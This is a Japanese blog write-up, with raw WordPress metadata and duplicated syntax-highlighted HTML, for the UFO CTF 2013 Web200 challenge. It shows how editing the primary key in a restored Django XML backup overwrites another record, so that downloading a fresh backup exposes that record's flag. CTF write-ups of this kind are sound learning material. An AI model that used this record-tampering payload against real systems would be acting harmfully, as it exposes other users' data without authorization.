 ```yaml
---
title: UFO CTF 2013 writeup – Web200
author: tyage
type: post
date: 2013-10-05T14:55:08+00:00
url: /?p=719
wp-syntax-cache-content:
  - |
    a:2:{i:1;s:6293:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;12349813568&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_email&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>test@localhost<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_title&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>My homepage<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;TextField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_content&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Hello everyone! This is my new homepage.<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_footer&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Made with love and care<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;BooleanField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_is_public&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>False<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_public_id&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table><p class="theCode" style="display:none;">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
    &lt;django-objects version=&quot;1.0&quot;&gt;
    	&lt;object pk=&quot;12349813568&quot; model=&quot;hosting.pagesettings&quot;&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_name&quot;&gt;username&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_email&quot;&gt;test@localhost&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_title&quot;&gt;My homepage&lt;/field&gt;
    		&lt;field type=&quot;TextField&quot; name=&quot;page_content&quot;&gt;Hello everyone! This is my new homepage.&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_footer&quot;&gt;Made with love and care&lt;/field&gt;
    		&lt;field type=&quot;BooleanField&quot; name=&quot;page_is_public&quot;&gt;False&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_public_id&quot;&gt;&lt;/field&gt;
    	&lt;/object&gt;
    &lt;/django-objects&gt;</p></div>
    ";i:2;s:2398:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;1&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table><p class="theCode" style="display:none;">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
    &lt;django-objects version=&quot;1.0&quot;&gt;
    	&lt;object pk=&quot;1&quot; model=&quot;hosting.pagesettings&quot;&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_name&quot;&gt;username&lt;/field&gt;
    	&lt;/object&gt;
    &lt;/django-objects&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<pre>
Those aliens consider themselves as the most smart creatures in
the world. Pff. They shouldn't even have tried to defeat mankind
having such stupid stuff in their heads! As for you, why wouldn't
you hack them? They'll most likely surrender then. By the way, it
is known that they update some data every 10-20 seconds, but
unfortunately our equipment can't intercept the data itself.
 
http://superhosting.tasks.ufoctf.ru:8000/
</pre>
<p>自分のウェブページが作れ、バックアップと復元ができるシステムになっている。</p>
<p>バックアップしてみると、[username]_[md5(username)][md5(zipfile)].zipという名前でzipファイルがダウンロードでき、それをアップロードすることで復元ができるようになっている。<br />
zipファイルの中身を解凍すると、.backupという名前で以下のようなファイルが入っている。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;12349813568&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_email&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>test@localhost<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_title&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>My homepage<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;TextField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_content&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Hello everyone! This is my new homepage.<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_footer&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Made with love and care<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;BooleanField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_is_public&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>False<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_public_id&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table></div>

<p>いろいろと試した結果、復元時にpk(primary key)を変えた場合にそのpkを持つフィールドのデータを上書きすることができるとわかった。</p>
<p>以下のようなxmlファイルを含めて復元し、再びバックアップをダウンロードすると、pk=1のデータの入ったバックアップファイルが手に入り、pk=1のデータにflagが書かれていた。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;1&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table></div>

